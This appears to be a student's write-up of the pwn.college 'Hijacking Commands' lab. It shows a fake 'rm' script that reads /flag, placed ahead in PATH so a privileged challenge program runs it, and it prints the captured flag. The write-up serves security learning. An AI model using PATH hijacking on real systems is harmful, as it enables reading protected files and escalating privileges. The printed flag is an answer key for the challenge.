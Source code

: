 # Hijacking Commands

# My Solve
## Flag: pwn.college{MJPd_cgE20lGkQLDsAXHDRHg3Cf.QX3cjM1wiNwAzNzEzW}

```
hacker@path~hijacking-commands:~$ mkdir ~/mybin
hacker@path~hijacking-commands:~$ nano ~/mybin/rm
hacker@path~hijacking-commands:~$ chmod +x ~/mybin/rm
hacker@path~hijacking-commands:~$ export PATH=~/mybin:$PATH
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/mybin/rm. Executing!
This is a fake rm command
hacker@path~hijacking-commands:~$ nano ~/mybin/rm
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/mybin/rm. Executing!
This is a fake rm command
pwn.college{MJPd_cgE20lGkQLDsAXHDRHg3Cf.QX3cjM1wiNwAzNzEzW}
hacker@path~hijacking-commands:~$
```
```
in nano

echo "this is a fake flag"
cat /flag
```

# What I Learnt

creating my own rm command, giving it execute access and adding in PATH using export.

# Reference 
none.
